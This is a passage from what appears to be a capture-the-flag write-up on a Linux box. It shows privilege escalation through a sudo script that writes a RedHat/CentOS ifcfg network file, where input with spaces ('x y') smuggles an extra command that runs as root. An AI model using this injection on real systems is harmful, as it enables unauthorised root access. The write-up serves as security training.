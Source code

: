 test
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked ~]$ 
{% endhighlight %}

#### Script output:
{% highlight shell %}
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=test
PROXY_METHOD=test
BROWSER_ONLY=test
BOOTPROTO=test
[guly@networked ~]$ 
{% endhighlight %}

To find a way to pwn this script, we can google like following.<br>
We can find a <a href="https://seclists.org/fulldisclosure/2019/Apr/24">discussion of seclist.org</a> about getting root through network-scripts.
{% highlight shell %}
linux ifcfg script code execution full disclosure
{% endhighlight %}

According to this discussion, Redhat/CentOS has a vulnerability that if we have write permission for ifcf script in "/etc/sysconfig/network-scripts", we can achieve a root privilege of the host.<br>
So try to put some spaces in the input. we can find interesting lines.
{% highlight shell %}
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: y: command not found
{% endhighlight %}
{% highlight shell %}
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
x y
x y
interface PROXY_METHOD:
x y
x y
interface BROWSER_ONLY:
x y
x y
interface BOOTPROTO:
x y
x y
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: y: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: y: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked ~]$ 
{% endhighlight %}
